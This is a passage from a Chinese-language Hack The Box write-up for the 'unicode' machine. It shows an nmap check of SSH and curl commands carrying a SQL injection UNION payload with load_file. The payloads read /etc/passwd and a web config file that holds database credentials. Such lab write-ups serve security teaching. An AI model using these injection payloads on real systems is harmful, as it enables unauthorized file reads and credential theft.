 ![](img/f519d147c5df38e4082a05cc3653b520.png)

使用变量传递 PHPSESSID

# SSH 访问

玩够了，让我们检查 SSH 现在在端口 22 上是打开的:

```
┌──(root💀kali)-[~/htb/unicode]
└─# nmap -p 22 10.10.11.128
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-09 17:09 GMT
Nmap scan report for 10.10.11.128
Host is up (0.023s latency).

PORT   STATE SERVICE
22/tcp open  ssh
```

是的，我们现在可以访问 SSH，但仍然需要凭证。使用我们的 SQLi 可以读取文件，这里的文档[将我们指向 load_file 函数。让我们使用/etc/passwd 文件对此进行测试:](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file)

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select load_file('/etc/passwd') -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//' 2>&1 | grep "/bin/bash"root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash
uhc:x:1001:1001:,,,:/home/uhc:/bin/bash
```

我们有三个用户可以登录。通过更多的枚举，我们可以读取其他有用的文件，最终我找到了 web 服务器配置文件:

```
┌──(root💀kali)-[~/htb/unicode]
└─# curl -s 10.10.11.128/index.php -d "player=pencer' union select load_file('/var/www/html/config.php') -- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-<HIDDEN>-pw";
  $dbname = "november";
  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
